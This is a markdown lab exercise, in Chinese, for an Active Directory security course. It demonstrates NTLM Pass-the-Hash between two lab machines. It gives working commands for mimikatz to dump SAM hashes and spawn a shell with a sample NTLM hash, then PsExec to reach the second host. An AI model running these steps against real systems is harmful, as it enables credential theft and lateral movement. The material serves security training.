


# Exercise 2 - NTLM and Pass-the-Hash

## Tools

需要工具(attacker-tools2)

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Theory

### NTLM For workgroup



### NTLM Attack



## Exercise

本練習中，我們將針對不同電腦間(ad-00、ad-01)相同本機管理員(administrator)的使用者，實作Pass-the-Hash的攻擊，由於ad-00以及ad-01在安裝時administrator的密碼相同，所以攻擊會成立。

- 使用最高權限打開mimikatz

```powershell
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

- 使用mimikatz 取得 local user的password hash

```cmd
privilege::debug
token::elevate
lsadump::sam
```

- 使用mimikatz的PTH模組，開啟一個local admin account的shell
    - 預設安裝的administrator

```powershell
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

- 使用psexec連線ad-01

```powershell
cd C:\attacker-tools
.\PsExec64.exe \\ad-01 cmd
```

確認是否成功連線ad-01

```powershell
whoami
hostname
```
